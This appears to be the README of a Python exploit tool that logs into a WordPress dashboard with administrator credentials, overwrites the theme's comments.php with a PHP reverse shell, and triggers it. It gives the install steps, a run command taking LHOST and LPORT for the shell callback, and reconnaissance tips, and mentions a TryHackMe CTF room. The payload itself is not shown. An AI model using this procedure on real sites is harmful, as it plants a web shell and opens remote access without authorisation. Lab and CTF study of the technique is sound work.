

# WordPress Theme Editor Exploit

The WordPress dashboard contains a tool called the **Theme Editor**, allowing webpage administrators to directly edit the various files that make up their installed WordPress themes. If a threat actor is able to authenticate themselves as an administrator into the WordPress dashboard of a website, they can then use the Theme Editor to inject their own malicious PHP code into the theme files. This then allows them to carry out further actions such as opening a reverse shell.

This exploit replaces the contents of the '**comments.php**' theme file with a PHP reverse shell script. It will then open the reverse shell by making a request to the file.

*'comments.php' is used as it is a 'required theme file' (https://developer.wordpress.org/themes/release/required-theme-files/) and is hence present in all themes on WordPress.*

# Installation

* This exploit has been tested on WordPress Version **4+** and **5+**
* Works on Python 3+ (Developed using Python 3.9.7)

```
# clone repo
git clone https://github.com/nisforrnicholas/WordPress-Theme-Editor-Exploit.git

# change working directory to /WordPress-Theme-Editor-Exploit
cd WordPress-Theme-Editor-Exploit

# install requirements
pip3 install -r requirements.txt
```

# Usage

Before running the exploit, you will first need to obtain valid **administrator credentials** to the WordPress dashboard, the **installed theme** on the website as well as the **target OS**.

This information can be easily obtained through various methods, such as using automated scanning tools like `WPScan` (https://github.com/wpscanteam/wpscan) and `nmap` (https://github.com/nmap/nmap)

Once the information is prepared, set up a TCP listener in another shell. 

Then run:

```
python3 wpte_exploit.py http://<IP>:<PORT>/ <USERNAME> <PASSWORD> <THEME_NAME> <LHOST> <LPORT> <TARGET_OS>
```

*Make sure to include the ending '/' at the end of the target URL!*

# Example

Used on Mr Robot CTF room on TryHackMe:



